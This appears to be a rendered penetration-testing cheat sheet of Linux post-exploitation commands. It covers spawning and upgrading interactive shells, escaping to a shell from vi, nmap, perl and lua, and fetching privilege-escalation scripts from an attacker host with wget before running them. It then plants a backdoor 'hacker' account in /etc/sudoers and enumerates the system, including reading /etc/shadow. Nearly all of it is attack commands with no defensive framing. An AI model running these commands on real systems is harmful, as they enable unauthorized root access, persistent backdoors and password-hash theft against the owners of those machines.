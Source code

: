 ```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /opt/privesc-scripts; python -m SimpleHTTPServer 80

# Download all files
wget http://$IP:8080/ -r; mv $IP exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers

```

### Basic info
```bash
uname -a
env
id
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/group
cat /etc/shadow
cat /etc/hosts

# Users with login
grep -vE "nologin" /etc/passwd
```
